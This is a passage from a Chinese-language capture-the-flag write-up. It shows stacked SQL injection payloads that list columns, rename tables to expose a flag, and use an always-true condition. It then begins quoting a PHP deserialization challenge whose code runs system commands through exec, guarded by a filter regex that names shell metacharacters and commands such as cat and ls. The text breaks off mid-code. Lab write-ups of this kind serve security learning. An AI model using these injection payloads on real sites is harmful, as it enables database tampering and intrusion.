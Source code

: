 1919810931114514
words

查看表中的列

```php
/?inject=1';show columns from `1919810931114514`; --+
```

发现flag

```php
/?inject=1';show columns from `words`; --+
```

id data

说明当前默认数据库查询查询的是words这张表

把words表名改为haha

```sql
rename tables `words` to `haha`;
rename tables `1919810931114514` to `words\`;
alter table `words` change `flag` `id` varchar(100);

rename tables `words` to `haha`;rename tables `1919810931114514` to `words`;alter table `words` change `flagid` varchar(100);
```



最后输入一个绝对正确的答案

```sql
/?inject=1' or 1 --+
```

## unseping

```php
<?php
highlight_file(__FILE__);//显示源代码

class ease{

  private $method;	//私有变量
  private $args;

  function __construct($method, $args) {	//创建对象时自动调用
    $this->method = $method;	//给私有变量赋值
    $this->args = $args;
  }
  //析构函数使用ping命令去执行
  function __destruct(){	//对象销毁时自动调用
    if (in_array($this->method, array("ping"))) {	//判断method变量是否等于"ping"
      call_user_func_array(array($this, $this->method), $this->args);	//用一个数组调用一个回调函数,返回值为回调函数执行的结果或者为flase
    }
  } 

  //ping命令的来源
  function ping($ip){
    exec($ip, $result);	//执行系统命令
    var_dump($result);
  }

  //防火墙
  function waf($str){
    //| & ; / cat flag tac php ls 空格
    if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
```